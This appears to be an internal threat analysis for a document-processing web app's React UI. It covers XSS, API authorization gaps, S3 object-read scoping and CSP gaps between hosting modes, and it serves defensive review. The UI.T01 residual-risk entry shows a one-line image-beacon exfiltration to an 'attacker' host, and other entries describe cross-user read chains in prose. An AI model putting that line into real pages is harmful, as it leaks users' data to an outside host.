

# Web UI — Threat Analysis

## Document Information

| Field | Value |
|-------|-------|
| **Document Version** | 3.0 |
| **Last Updated** | 2026-07-28 |
| **Applies to release** | v0.6.3 |
| **Feature** | Web UI (React SPA) |
| **Classification** | Internal |

> **v3.0 update.** UI.T03 was rewritten: the AppSync GraphQL API it described
> no longer exists, and its mitigations (query depth/complexity limits,
> introspection disabling, field-level AppSync authorization) were **controls
> credited to deleted machinery**. UI.T01's CSP mitigation is corrected to
> reflect the policy actually shipped. Two threats are new: **UI.T06**
> (presigned-read key scoping) and **UI.T07** (hosting-mode header/CSP
> divergence).

## 1. Feature Overview

The Web UI is a React single-page application (SPA) built with Cloudscape and Vite, providing:
- **Configuration management**: Create/edit document processing configurations via visual editor
- **Document upload**: Upload documents (or bundled samples) for processing
- **Processing monitoring**: Status tracking via **polling** the REST API
- **Results viewer**: View extracted data, confidence, geometry, and processing outputs
- **Human review (HITL)**: Built-in review portal — claim sections, correct results
- **Agent chat**: Companion Chat and Chat-with-Document (SSE streaming)
- **Test Studio**: Test sets, document browser, ground-truth visual editor
- **Discovery**: AI-assisted configuration generation from sample documents
- **Document version history**: View/compare/delete prior processing runs
- **Extensions**: Host surface for installed Feature Platform extensions
- **Administration**: User management, model limits, service tier configuration

## 2. Architecture

The UI is served by **one of two mutually exclusive hosting modes**, and talks
to the backend over **two transports**.

## 3. Threat Analysis

### UI.T01: Cross-Site Scripting (XSS)

| Attribute | Value |
|-----------|-------|
| **Threat ID** | UI.T01 |
| **Category** | STRIDE: Tampering, Information Disclosure |
| **Description** | Document processing results displayed in the UI could contain malicious HTML/JavaScript. If results are rendered without proper sanitization, XSS could execute in the user's browser. Document-derived content is inherently attacker-influenced: an uploaded document's text, extracted field values, class names, summaries, and model-generated `confidence_reason` strings all reach the DOM. |
| **Attack Vector** | Upload a document containing XSS payloads in text content; extracted values containing script tags are rendered in the results viewer, section tables, processing-issue popovers, markdown panes, or another user's Inbox, where a message body interpolating the uploaded file name is rendered through `SafeMarkdown` (HITL.T03). Secondary vector: a prompt-injected model response (PM.T01) emits an active payload into a field the UI renders as markdown/HTML. |
| **Impact** | Session token theft, unauthorized API calls from the user's browser (with their full role), data exfiltration |
| **Likelihood** | Medium |
| **Severity** | High |
| **Affected Components** | Web UI (React), results viewer, configuration editor, markdown/SafeMarkdown renderers, feature UI bundles |
| **Mitigations** | React JSX auto-escaping is the primary control; document-derived markdown is routed through a `SafeMarkdown` renderer. **CSP is a partial control only** — see the residual risk below. Tokens are held in memory/session storage rather than cookies, so there is no cookie-theft path, but an XSS payload can still call the API as the user. The ZAP DAST probe checks response headers each build. |
| **Residual risk** | The shipped CSP is **not** a strong anti-XSS control: `script-src` is `'self' 'unsafe-inline' 'unsafe-eval' https://cdn.jsdelivr.net/npm/`, so inline script and `eval` still run. `'unsafe-inline'`/`'unsafe-eval'` are retained pending Monaco editor compatibility work (tracked as Talos finding #12 phase 2). The blanket `https:` source — which permitted script from **any** HTTPS origin and made the directive close to meaningless — was removed in the v0.6.x AppSec pass; what remains is the single CDN origin `@monaco-editor/react` loads Monaco from at runtime (`cdn.jsdelivr.net`), and self-hosting Monaco out of the Web UI bucket would let even that go. `object-src 'none'`, `base-uri 'none'`, `frame-ancestors`, and a hostname-restricted `connect-src` are genuine hardening (they block plugin execution, base-tag hijacking, and `fetch`/`XHR`/WebSocket exfiltration), but the policy does **not** stop injected inline script from executing, and `connect-src` is **not** a general exfiltration boundary: `img-src` still allows `https:` and there is no `default-src`, so `new Image().src = 'https://attacker/?d=' + data` leaves the page regardless. Treat React escaping — not CSP — as the control of record for UI.T01. **See also UI.T07: the same policy is now emitted in `WebUIHosting=APIGateway` mode too.** |

### UI.T02: Presigned Upload URL Abuse

| Attribute | Value |
|-----------|-------|
| **Threat ID** | UI.T02 |
| **Category** | STRIDE: Spoofing, Tampering |
| **Description** | S3 presigned URLs for document upload could be shared or reused to upload documents without re-authenticating |
| **Attack Vector** | Intercepted or shared presigned PUT URL used to upload documents outside the normal authentication flow |
| **Impact** | Unauthorized document upload, processing of malicious documents, storage/processing cost abuse |
| **Likelihood** | Low |
| **Severity** | Medium |
| **Affected Components** | S3 Input Bucket, `upload_resolver` |
| **Mitigations** | Minting the URL requires the **Admin/Author** group (enforced server-side in `upload_resolver`); short expiration; S3 bucket lifecycle policies; the concurrency counter and SQS bound runaway processing. Trailing-slash pseudo-object keys are skipped by the Queue Sender so console "folder" artifacts don't start executions. |

### UI.T03: UI API Abuse (REST dispatcher)

| Attribute | Value |
|-----------|-------|
| **Threat ID** | UI.T03 |
| **Category** | STRIDE: Tampering, Information Disclosure, Denial of Service |
| **Description** | The UI API is a **single API Gateway REST route** — `POST /op/{field}` — fronted by a Cognito authorizer that **only authenticates**. Any authenticated user can name *any* of the 164 routable operations in the path. The dispatcher applies a field-level group floor from a generated manifest before routing and refuses an undeclared operation (AUTH.T16), so a caller outside an operation's declared groups is refused there; every narrower decision — configuration-profile and test-set scope, ownership, review-queue eligibility — is made inside the resolver, so an operation whose resolver omits one is reachable by every caller its group list admits. Separately, a caller can drive high request volume or expensive operations (bulk list/scan ops, agent invocations) to degrade the API or run up model cost. |
| **Attack Vector** | An authenticated low-privilege user (e.g. Reviewer/Viewer) enumerates operation names from the JS bundle or `schema.graphql` and calls privileged ones directly with `curl`, bypassing UI navigation gating; or floods a costly operation. |
| **Impact** | Privilege escalation / unauthorized data access where a server-side check is missing; API performance degradation; Bedrock cost amplification |
| **Likelihood** | Medium |
| **Severity** | High |
| **Affected Components** | API Gateway REST API, `http_api_dispatcher`, all resolver Lambdas, `ddb_direct` handlers |
| **Mitigations** | **The dispatcher's default-deny group floor** plus **per-object checks inside each resolver** (the authorization boundary — see AUTH.T03/T08/T16). Every 403 carries `errors[0].authzControl`, naming which layer refused, and an unexpected server error answers a generic 500 `InternalError` with a request id while the detail (which can name internal resources) is logged server-side only. **Central input-shape validation** in the dispatcher rejects unknown/missing/wrong-typed/out-of-enum arguments with HTTP 400 before routing, restoring the boundary input gate AppSync used to provide (AUTH.T12). **Automated authorization testing is the primary regression control**: `make api-test-static` fails on op↔schema↔expectations drift or a missing enforcement pattern, and `make api-test` drives the live op×role matrix with per-role Cognito users plus unauthenticated/tampered-token calls. Optional WAFv2 IP allow-list (default-Block WebACL) on the stage; `ApiGatewayVisibility=PRIVATE` restricts invocation to a VPC endpoint. API Gateway stage throttling and Lambda reserved concurrency bound volume. |
| **Notes** | There is **no GraphQL engine** in the request path, so the classic GraphQL abuse vectors (introspection, deeply-nested queries, query batching, aliasing amplification) **do not apply** — `schema.graphql` is retained only as the input-validation source and as documentation of intent. Do not credit AppSync query-depth/complexity limits as controls; they no longer exist. |

### UI.T04: Hosting Origin Misconfiguration

| Attribute | Value |
|-----------|-------|
| **Threat ID** | UI.T04 |
| **Category** | STRIDE: Information Disclosure |
| **Description** | A misconfigured UI origin could expose S3 bucket contents beyond the SPA, serve stale/cached sensitive data, or allow cache poisoning. Applies to both hosting modes: CloudFront (OAC → S3) and the API Gateway S3 proxy. |
| **Attack Vector** | Manipulate cache keys or exploit misconfigured origin access to reach unintended S3 objects; in APIGateway mode, traverse the `{proxy+}` path to a non-UI key in the Web UI bucket |
| **Impact** | Exposure of S3 bucket contents beyond the UI; cached content served to the wrong user |
| **Likelihood** | Low |
| **Severity** | Medium |
| **Affected Components** | CloudFront distribution, API Gateway `GET /` + `GET /{proxy+}` methods, S3 UI bucket, `WebUIProxyRole` |
| **Mitigations** | CloudFront Origin Access Control (OAC) with a restrictive S3 bucket policy; in APIGateway mode the proxy integration assumes a dedicated `WebUIProxyRole` scoped to the Web UI bucket, so traversal cannot reach other stack buckets, and a missing key maps to 404. The Web UI bucket holds only build artifacts and feature bundles — no customer documents. Feature bundles are served with `Cache-Control: max-age=300` (matching the CloudFront TTL) so a republished hotfix propagates in minutes instead of being pinned for a year. |

### UI.T05: Client-Side Configuration Exposure

| Attribute | Value |
|-----------|-------|
| **Threat ID** | UI.T05 |
| **Category** | STRIDE: Information Disclosure |
| **Description** | The React SPA requires configuration values (Cognito pool/client IDs, identity pool ID, REST API endpoint, chat Function URL, bucket names) embedded in client-side code. These could be used to discover and target backend services |
| **Attack Vector** | Extract configuration from browser developer tools or the JS bundle to identify backend endpoints |
| **Impact** | Knowledge of backend endpoints enables targeted attacks against the REST API, the chat Function URL, Cognito, or S3 |
| **Likelihood** | Medium |
| **Severity** | Low |
| **Affected Components** | Web UI JavaScript bundle, runtime config |
| **Mitigations** | All backend services require authentication; client-side config contains only public endpoint identifiers; authorization is enforced server-side. Security does not depend on endpoint obscurity. Note the corollary for UI.T03: because the endpoint and operation names are inherently public, **server-side authorization is the only thing standing between a Viewer and an Admin operation.** |

### UI.T06: Object Reads Carry No Document Ownership Axis

| Attribute | Value |
|-----------|-------|
| **Threat ID** | UI.T06 |
| **Category** | STRIDE: Information Disclosure, Elevation of Privilege |
| **Description** | `getFileContents`, `getFilePresignedUrl` and `getFilePresignedUrls` accept caller-supplied `s3Uri` values (with an optional `versionId`, per entry on the batch field) and return the bytes, or presigned GET URLs for them. Three server-side controls apply to every request, all of them in `_parse_and_validate_one` — the one function every field and every batch entry passes through before S3 is touched: the dispatcher's field-level group floor (each is declared **`ANY_GROUP`**, so a caller in *no* group is refused), the **bucket** allow-list, and **key** authorization. Key authorization has two halves covering different buckets. For the Configuration and Test Set buckets — the two partitioned **per user** — the key itself is matched against `allowedConfigVersions` / `allowedTestSets`. For the Input and Output buckets the object belongs to a *document*, so `document_scope` resolves the owning document from the tracking table and matches its `ConfigVersion` against the caller's `allowedConfigVersions`. ⚠️ **That is the only per-document axis this deployment records.** There is no document-owner and no tenant attribute anywhere in the product, so "is this document yours" cannot be asked; and because scoping is opt-in per user, a caller whose `allowedConfigVersions` is unset — the default, and what self-signup produces — is bounded by the group floor alone and may read any document's bytes by key: another user's document results, evaluation baselines, reporting Parquet, and prior document versions via `versionId`. **Group membership is not per-document authorization**, and no setting of it supplies one. |

| **Attack Vector** | An authenticated user calls `getFilePresignedUrl` (or `getFilePresignedUrls` with a list) for `s3://<output-bucket>/<other-users-doc>/sections/1/result.json`, or enumerates keys through `listDocumentVersions`, `listDocumentsDateHour` or `listDocumentsDateShard` (all `ANY_GROUP`, so that arm needs an assigned group — any one of the five will do), then fetches the bytes. ⚠️ **Every route to the bytes is now an API operation.** `CognitoIdentityPoolSetRole` attaches one `authenticated` role with no role mappings, so whatever that role can read is readable by every signed-in user with no resolver in the path; the role accordingly grants **nothing** on the Input and Output buckets, **no** `s3:GetObject`, `s3:GetObjectVersion` or `s3:ListBucket` on any bucket, and **no** KMS action ([#1033](https://github.com/aws-solutions-library-samples/accelerated-intelligent-document-processing-on-aws/issues/1033)). The chain measured on a live stack — a self-registered caller in no group running `cognito-identity get-id` and `get-credentials-for-identity` with their own ID token, assuming that role, and reading 15,953 bytes of extracted output with `s3api get-object` — now fails at the `get-object`, because the vended credentials can read no bucket. What is left is the presign or inline-read call itself, which needs an assigned group and, for a document outside the caller's profile scope, is refused; see AUTH.T03 residuals (1) and (3). |

| **Impact** | Cross-user disclosure of document content and extracted data within the deployment, bounded to objects in the stack's own document buckets, and bounded further to callers whose configuration-profile scope is unset — a scoped caller is refused a document outside their profiles. |

| **Likelihood** | Medium (requires an assigned group, a caller whose `allowedConfigVersions` is unset, and a key. It stays at Medium rather than dropping: an unset scope is the default state of a user row, the key-returning operations are `ANY_GROUP` and so reachable by all five groups, and a group member in that state reads any document through the resolver exactly as `listDocuments` lists it for them) |
| **Severity** | High |
| **Affected Components** | `get_file_contents_resolver` (`_parse_and_validate_one`, `_validate_bucket`, `_validate_key_scope`, `_handle_presigned_url`, `_handle_presigned_urls`, `_handle_file_contents`, `key_scope`, `document_scope`, `s3_targets`), the tracking table, `CognitoAuthorizedRole`, S3 input/output/reporting/baseline buckets |
| **Mitigations** | **The browser holds no S3 grant.** `CognitoAuthorizedRole` carries two inline policies — `lambda:InvokeFunction` on the chat-streaming Function URL and `ssm:GetParameter` on the settings parameter — and no S3 or KMS statement, so there is no bucket a signed-in user's own credentials can read and every document byte the UI displays comes from one of the three operations above. `scripts/tests/test_browser_s3_grants.py` fails if an S3 statement reappears on the role under any policy name. A **bucket allow-list** built from injected env vars prevents the resolver being used as a generic S3-read gadget for arbitrary or third-party buckets, and fails **closed** — an unset allow-list refuses every request rather than skipping validation. Presigned URLs are short-lived; the URI must be `s3://` form, is parsed literally (preserving `#` in keys) and must be in canonical form, so two spellings of one key cannot derive different authorization answers. **Per-user key scope** matches a Configuration-bucket `config_revisions/<profile>/<nnnnnn>.json.gz` against `allowedConfigVersions` and every Test Set bucket key (`<test_set_id>/…`, covering source documents, ground truth and published baseline snapshots) against `allowedTestSets`, through the canonical fail-closed lookups (`idp_common.config_scope`, `idp_common.testset_scope`). **Per-document scope** finds the document owning an Input- or Output-bucket key by walking the key's `/` boundaries longest-first against the tracking table — longest-first because uploads may nest, and prefix-walking rather than a list of known artifact segments because an unrecognised artifact prefix would otherwise read as "not document-scoped" and pass — then applies `allowedConfigVersions` to its `ConfigVersion`. The ordering is strict rather than optimised: an earlier form proposed ancestors followed by a *known* artifact segment first, which put a shorter ancestor ahead of the true owner for an artifact prefix it had not been told about and authorized a nested document's artifact against its parent. It fails closed on both halves: a scope that cannot be evaluated denies, a key no tracked document owns denies, and a document carrying no `ConfigVersion` denies a scoped caller. Every refusal raises the identical non-disclosing message, naming neither bucket, key, document nor profile, and the object is never read, so a refusal is not an existence oracle; on the batch field a single refusal fails the **whole** request, because per-entry refusals would turn one call into an N-key authorization oracle. The list is capped server-side (`MAX_BATCH_OBJECTS`, refused rather than truncated) and the distinct documents one call may look up more tightly still (`document_scope.MAX_DOCUMENT_LOOKUP_BATCHES`, where one round trip resolves up to 100 candidate document keys), so a caller-supplied list cannot amplify one API call into unbounded DynamoDB reads. Past that cap the caller gets the same opaque refusal rather than a distinguishable "too broad" error, because round-trip count is a function of which candidate documents exist and a different status class would be an existence oracle. Deployment is **single-tenant** — every authenticated user belongs to one organization's deployment, which is the design assumption that makes the remaining gap acceptable for most deployments. |
| **Residual risk / recommendation** | **Document ownership is not modelled, so the per-document check can only ask the profile question.** For a **scoped** caller that is a real boundary: a page image or section result stamped with a profile outside their `allowedConfigVersions` is refused before S3 is touched. For an **unscoped** caller — a UsersTable row that sets no scope, or no row at all — the check is deliberately a no-op, because scoping is opt-in per user, so a caller in any one of the five groups may still read any document's bytes through the resolver. That is the same reach `listDocuments` already gives them, and it is the whole of the per-document boundary this product can express. Recommend giving documents an ownership or tenancy attribute and deriving the permitted key from it; that is the one change that would close the rest, and it is a data-model change rather than a read-path one. Note also that the broad read did not disappear but moved: `get_file_contents_resolver`'s own role holds it, which makes that function the single component whose compromise yields every document. Coverage: the out-of-scope-key cases for both per-user axes are offline (`get_file_contents_resolver/test_key_scope.py`), the per-document cases likewise (`test_document_scope.py`), and the browser's grant is pinned in both directions by `scripts/tests/test_browser_s3_grants.py`. |

### UI.T07: Security-Header and CSP Divergence Between Hosting Modes

| Attribute | Value |
|-----------|-------|
| **Threat ID** | UI.T07 |
| **Category** | STRIDE: Tampering, Information Disclosure |
| **Description** | Response security headers are attached by the hosting layer, and the two hosting modes historically did not provide the same set. The `SecurityHeadersPolicy` that carries the **Content-Security-Policy** is a CloudFront `ResponseHeadersPolicy` gated on `Condition: UseCloudFrontHosting`, so in `WebUIHosting=APIGateway` mode (required for `--govcloud`, and used for private/VPC-only deployments) there is no CloudFront and **no CSP was emitted for the SPA at all** — the API Gateway methods set only `X-Content-Type-Options`, `Strict-Transport-Security`, `X-Frame-Options`, and `Referrer-Policy`. **Closed in the v0.6.x AppSec pass**: `WebUIRootMethod` and `WebUIProxyMethod` now send a `Content-Security-Policy` of their own. |
| **Attack Vector** | An XSS payload (UI.T01) that the CloudFront CSP's `connect-src` restriction would have limited from exfiltrating to an arbitrary origin executed without that restriction in APIGateway/GovCloud deployments. |
| **Impact** | Loss of the plugin/`base-uri` hardening and of the `connect-src` restriction on API-shaped exfiltration precisely in the deployments most likely to be handling regulated data (GovCloud, private VPC). (Neither mode closes image-based exfiltration — see UI.T01's residual risk.) |
| **Likelihood** | Low (requires a UI.T01 XSS to chain from) |
| **Severity** | Medium |
| **Affected Components** | `SecurityHeadersPolicy` (main template, `UseCloudFrontHosting`), `WebUIRootMethod` / `WebUIProxyMethod` (api-resolvers template) |
| **Mitigations** | Both hosting modes now emit the same CSP: in APIGateway mode it is a static integration-response value on the SPA document and asset methods, held once in `Mappings -> WebUiSecurity -> ContentSecurityPolicy` of the api-resolvers template and pinned against the CloudFront copy by `scripts/tests/test_csp_policies_in_sync.py`. The only intended difference from the CloudFront policy is `frame-ancestors 'none'` instead of `'self'`, matching that mode's stricter `X-Frame-Options: DENY` (a CSP `frame-ancestors` overrides `X-Frame-Options`, so copying `'self'` verbatim would have *relaxed* framing there). `nosniff`, HSTS, `X-Frame-Options: DENY` and `Referrer-Policy` remain set per-method, and on the `/op` Lambda responses and the 4xx/5xx gateway responses. APIGateway mode is also typically deployed PRIVATE (VPC-only) or behind the WAF IP allow-list. |
| **Residual risk / recommendation** | `scripts/tests/test_csp_policies_in_sync.py` asserts the two copies match directive-for-directive (with `frame-ancestors` as the one asserted difference) and that neither `script-src` regains a blanket scheme source, so drift fails the build rather than reaching a GovCloud deployment. All three response codes of both SPA methods (200/404/500) carry the CSP, not just the 200 — a 404 for a missing asset key is still a response from the SPA's own origin. The CSP is deliberately **not** added to the API's `DEFAULT_4XX`/`DEFAULT_5XX` gateway responses or the `/op` JSON responses (non-HTML bodies, already served `nosniff`). The header itself is only observable against a deployed stage (`make stacktest-*`, APIGateway variants). |

## 4. Security Controls Summary

| Control | Implementation | Threats Mitigated |
|---------|---------------|-------------------|
| **React XSS protection** | JSX auto-escaping; `SafeMarkdown` for document-derived markdown | UI.T01 |
| **CSP (partial)** | CloudFront `ResponseHeadersPolicy`, mirrored as a static header on the two SPA methods in APIGateway mode — `object-src`/`base-uri`/`frame-ancestors`/`connect-src` hardening, and `script-src` limited to `'self'` + the Monaco CDN (no blanket `https:`). **Does not block inline script** (`unsafe-inline`/`unsafe-eval` retained) | UI.T01 (partial), UI.T07 |
| **Security header trio** | `nosniff` + HSTS + `X-Frame-Options: DENY` on SPA responses, `/op` responses, and gateway 4xx/5xx — **both** hosting modes | UI.T01, UI.T07 |
| **Presigned upload limits** | Admin/Author group to mint; short expiration | UI.T02 |
| **Resolver-side authorization** | Per-operation `cognito:groups` checks in every resolver Lambda | UI.T03 |
| **Input-shape validation** | Dispatcher validates `arguments` against a schema-derived spec; 400 on bad shape | UI.T03 |
| **Automated authorization testing** | `make api-test` / `make api-test-static` — op×role matrix, drift scan | UI.T03 |
| **Bucket allow-list on file reads** | `_validate_bucket` restricts reads to this stack's buckets, and an **unset** allow-list refuses every request rather than skipping the check | UI.T06 (partial) |
| **Key-level authorization on file reads** | `key_scope` applies the caller's `allowedConfigVersions` / `allowedTestSets` to Configuration- and Test-Set-bucket keys; `document_scope` applies `allowedConfigVersions` to the **document** owning an Input- or Output-bucket key. Both fail closed, and both run in the shared `_parse_and_validate_one` | UI.T06 (partial) |
| **No browser S3 grant** | `CognitoAuthorizedRole` holds no S3 or KMS statement, so every document byte is read through `getFileContents` / `getFilePresignedUrl` / `getFilePresignedUrls`; pinned by `scripts/tests/test_browser_s3_grants.py` | UI.T06 |
| **Origin access** | CloudFront OAC; scoped `WebUIProxyRole` in APIGateway mode | UI.T04 |
| **Optional WAF** | WAFv2 REGIONAL default-Block WebACL with IPv4 allow-list on the API stage | UI.T03, UI.T07 |
| **Private endpoint** | `ApiGatewayVisibility=PRIVATE` + VPCe resource policy | UI.T03, UI.T07 |
| **HTTPS-only / TLS 1.2+** | CloudFront + execute-api minimum TLS policy; no port 80 | UI.T01, UI.T05, AUTH.T11 |
| **DAST** | Authenticated ZAP scan each integration build (headers, injection, disclosure) | UI.T01, UI.T03, UI.T07 |

## 5. Open Items

| Item | Threat | Status |
|------|--------|--------|
| Per-**document** authorization on the object-read operations | UI.T06 | **Partially Mitigated** — narrowed, not closed. `document_scope` matches the owning document's `ConfigVersion` against the caller's `allowedConfigVersions`, which refuses a **scoped** caller a document outside their profiles; for an **unscoped** caller (no `allowedConfigVersions`, which is the default) it is a deliberate no-op, so any group member reads any document's bytes through the resolver. Closing the rest needs a document ownership or tenancy attribute to derive the permitted key from — a data-model change, not a read-path one |
| Identity Pool grants the document buckets to every authenticated user | UI.T06 | **Closed** (#1033) — `CognitoAuthorizedRole` holds no S3 and no KMS statement, so the measured chain (a self-registered caller in no group obtaining credentials on that role and reading 15,953 bytes of extracted output) now fails at the `get-object`. Every document byte is read through `getFileContents` / `getFilePresignedUrl` / `getFilePresignedUrls`, where the group floor, the bucket allow-list and both key checks apply. The option not taken — group-scoped `RoleMappings` — and the obstacles each shape ran into are in [Identity Pool group scoping](../../../docs/planning/identity-pool-group-scoping-plan.md) |
| CSP absent in `WebUIHosting=APIGateway` mode | UI.T07 | **Closed** (v0.6.x) — static CSP header on `WebUIRootMethod`/`WebUIProxyMethod`, held in the `WebUiSecurity` mapping |
| `unsafe-inline` / `unsafe-eval` in CSP | UI.T01 | **Accepted** — pending Monaco editor work (Talos #12 phase 2) |
| `script-src` permits any `https:` origin | UI.T01 | **Closed** (v0.6.x) — narrowed to `'self'` + `https://cdn.jsdelivr.net/npm/` |
| `script-src` still allows a third-party CDN (`cdn.jsdelivr.net`) | UI.T01 | **Open** — `@monaco-editor/react` loads Monaco from jsDelivr at runtime; self-host it out of the Web UI bucket (`loader.config`) to drop the last cross-origin script source, and `style-src`'s `https:` with it |
